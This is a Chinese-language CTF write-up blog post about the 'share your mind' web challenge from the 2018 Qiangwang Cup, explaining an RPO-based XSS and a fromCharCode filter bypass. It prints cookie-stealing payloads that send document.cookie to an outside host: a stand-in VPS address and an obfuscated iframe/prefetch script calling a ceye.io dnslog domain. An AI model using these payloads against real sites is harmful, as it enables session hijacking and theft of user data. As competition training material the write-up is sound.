 ```yaml
---
layout:     post
title:      "强网杯CTF wtiteup之share your mind"
subtitle:   " \"安全研究\""
date:       2018-03-27 22:30:32
author:     "y1r0nz"
header-img: "img/hack.jpg"
tags:
    - 安全研究
    - CTF
    - 渗透经历
---
```




#### 0x01 前言

​	强网杯CTF online初赛已经告一段落，首先还是要感谢和跪舔一波公司战队所有的小伙伴，解题过程虽然烧脑但很精彩，2000个比赛战队情况下一度杀入前40。

​	早在比赛之前我就认为第二届相比第一届名次的角逐会更加激烈，对自己的失望也和期望基本一致，但也并不意味着我完全对玩ctf失去了兴趣。正因为参与了比赛并在比赛中尽力解出属于自己的题目，在赛后看看别人家的writeup，才可以根据这些思路总结下比赛经历并将其运用在其他地方。所以，经历这些过程之后的成长才是最重要的。

​	比赛期间自己在share your mind这题上Fuzz的时间最多，最终也没有想到思路，看了赛后大佬的writeup才后知后觉，这里简要的总结下吧。

— 

#### 0x02 关于做share your mind这题自己的一些心得

* __漏洞挖掘以及RPO XSS成因__

​	首先这题是一道web题，初步看了下提示以后就开始做了。

   ![share your mind1](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind1.png)	

​	根据这题的提示来到题目主页，这里要求输入用户名密码，注册了个账户发现能用便进去一看究竟。

![share your mind2](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind2.png)

​	来到主页report页面中发现了这样一个输入框，网站开发人员想要你把存在问题的页面链接提交给后台给他处理。大多数老铁和司机们看到这里基本上可以断定这题是一个xss盲打后台管理员cookie的套路题。

![share your mind3](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind4.png)

​	由于后台用的phantomjs写的xss bot（类似假的管理员机器人，xss打过去基本上秒回那种），这里随便构造一下有本站地址的url然后把xss payload放到后面打过去，发现后台确实可以成功访问自己的dnslog服务器。

![share your mind4](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind3.png)

​	由于本熊对xss的了解仅停留在写poc水平，还没对如何利用进行过深入研究过，但是根据题目hint1提示说xss的点根本不在report页面，所以我也就没在fuzzing payload上花更多的功夫。所以，后面的过程一直在寻找xss注入点，在寻找的过程中还发现了一枚彩蛋~ 

![share your mind5](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind5.png)

发现网站使用了php的htmlspecialchar函数并开启ENT_QUOTES开关对所有输出进行了过滤，也就是说html编码了尖括号和单双引号。。当我看到这个函数以为找到了突破口，过滤函数是可以绕过，并且确定xss绝对在这```http://39.107.33.96:20000/index.php/view/article/你发布文章的id```但是一直没有找到输出内容不在html标签之内的地方，所以当时的思路就一直卡在这里。。

​	在看了[Ph0rse大佬写的writeup](https://xianzhi.aliyun.com/forum/topic/2220#toc-2)后才知道原来发布文章不写标题只写内容在view文章页面是直接打印的内容，而两个都写了的话是把文章标题和内容都输出在html标签之间的，看看下面两张图就明白了。

![share your mind6](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind6.png)

![share your mind7](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind7.png)

好了，我们确定了xss输入点以后怎么触发这个xss呢，答案很隐蔽，用RPO XSS方式。首先我们来了解下RPO(relative path overwrite)即相对路径覆盖结合xss这种漏洞的成因，在漏洞利用之前首先需要掌握php url的一些冷知识。那就是phpinfo url，类似url重写。

​	根据[Wiki](https://zh.wikipedia.org/wiki/URL%E9%87%8D%E5%AF%AB)里面对url重写的解释：url rewrite是一种REST的相关技术，它可以在 Web Server 中，针对用户所提供的 URL 进行转换后，再传入 Web Server 中的程序处理器。这里可以知道url重写其实就是将常见携带参数形式的url重写为不携带参数的伪静态形式，在题目中可以反映为：

```http://39.107.33.96:20000/index.php/view/article/1494``` 等价于 ```http://39.107.33.96:20000/index.php?methode=view&article=1494```

这样的形式。

同时，在php的特性中%2f会被直接解析为斜杠，在通常情况下```http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2findex.php```代表```http://39.107.33.96:20000/index.php/view/article/1494/../../../../index.php```即在浏览器解析为向上跳了三层目录并使用新的index.php覆盖掉原来的index.php目录。说到这里我们思考下，假如服务端开启了phpinfo url呢？会不会无视php目录跳转的特性直接把```..%2f..%2f..%2f..%2findex.php```当作参数进行解析？答案是肯定的。

我们从前端代码中可以发现jquery.min.js这个文件是使用的相对路径的方式引入到index.php页面中。

![share your mind8](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind8.png)

浏览器将```http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2findex.php```将解析为```http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2findex.php/static/js/jquery.min.js```这种形式。从而导致最终访问```http://39.107.33.96:20000/index.php/static/js/jquery.min.js```这个页面，那本质上请求的是什么呢，其实还是```http://39.107.33.96:20000/index.php/view/article/1494```这篇文章的内容，绿盟那篇文章解释得很清楚：__客户端浏览器在加载相对路径文件时是以最后一个/为相对目录加载具体资源文件的__。只是将这篇文章的内容引入到了jquery.min.js，从而让浏览器误以为文章的内容就是这个js文件。

![share your mind9](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind9.png)

下面可以来实验一下，在write article页面写入alert(1)这种js语句。然后构造上述请求```http://39.107.33.96:20000/index.php/view/article/1493/..%2f..%2f..%2f..%2findex.php```，最终触发xss。

![share your mind10](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind10.png)

我们可以f12看下浏览器的请求形式

![share your mind11](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind11.png)

显然，alert(1)这条语句最终引入到jquery.min.js中并覆盖掉原文件内容，浏览器误以为jquery.min.js 中的内容为alert(1)导致js脚本被执行。

* __漏洞最终利用__

有了RPO XSS这个核武器，接下来就可以构造rpxss payload的exp脚本了。之前有提到服务端对所有输出到页面的字符使用了htmlspecialchar函数处理，故不可以使用单引号的。所以这里还有一个知识点就是使用javascript的fromCharCode函数绕过过滤限制。可以构造类似如下payload：

```(new Image()).src = 'http://VPSIP:Port?'+document.cookie```

最终构造的pyaload如下：

```(new Image()).src = String.fromCharCode(104,116,116,112,58,47,47,55,101,52,122,119,48,99,101,121,101,46,105,111,63)+document.cookie;```

从report页面发送到后台，这里code只需要写个脚本跑个md5字典下来进行碰撞猜测就可以得到了

![share your mind12](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind12.png)

打过去就可以得到cookie，然而这里cookie的值提示要打另外一个目录

![share your mind13](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind13.png)

搬砖Ph0rse的代码，exp可以按照下面这种方式用iframe标签的src属性去读本地相对路径。

``````javascript
var iframe = document.createElement(String.fromCharCode(105,102,114,97,109,101));
iframe.src = String.fromCharCode(47,81,87,66,95,102,108,52,103,47,81,87,66,47);
iframe.id = String.fromCharCode(102,114,97,109,101);
document.body.appendChild(iframe);
iframe.onload = function (){
    var c = document.getElementById(String.fromCharCode(102,114,97,109,101)).contentWindow.document.cookie;
var y1r0nz = document.createElement(String.fromCharCode(108,105,110,107));
y1r0nz.setAttribute(String.fromCharCode(114,101,108), String.fromCharCode(112,114,101,102,101,116,99,104));
y1r0nz.setAttribute(String.fromCharCode(104,114,101,102), String.fromCharCode(47,47,55,101,52,122,119,48,46,99,101,121,101,46,105,111,47,63,102,108,97,103,61) + c);
document.head.appendChild(y1r0nz);
}
``````

这段js代码的意思简而言之，在经过浏览器渲染以后就是下述的两行html代码

``` html
<iframe id="frame" src="/QWB_fl4g/QWB/">
<link rel="prefetch" href="http://7e4zw0.ceye.io/?flag=document.getElementById(frame).contentWindow.document.cookie">
```

prefetch属性规定了当前文档在链接文档之前被调用

提交到后台便在dnslog上得到flag了^_^

![share your mind13](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind15.png)

— 

#### 0x03 总结&修复方案

ctf的题烧脑，但是每一题的干货特别多。这题主要三个考点：

* 掌握通过xss bot盲打后台获取session的常见套路
* phpinfo url形式如何通过相对路径覆盖的方式触发xss payload
* 使用fromCharCode函数绕过htmlspecialchar函数的单引号过滤

浏览器和服务器这种误差是在现阶段内无法及时解决的，涉及到双方各自的应用标准。目前看来，比较直接的解决办法就是在页面中避免直接使用相对路径进行静态文件的加载了。

— 

#### 0x04 参考文献

1. 深入剖析RPO漏洞  [https://xianzhi.aliyun.com/forum/topic/2220#toc-2](https://xianzhi.aliyun.com/forum/topic/2220#toc-2)
2. Url重写 [https://zh.wikipedia.org/wiki/URL%E9%87%8D%E5%AF%AB](https://zh.wikipedia.org/wiki/URL%E9%87%8D%E5%AF%AB)
3. RPO技术浅析 [http://blog.nsfocus.net/rpo-attack/](http://blog.nsfocus.net/rpo-attack/)
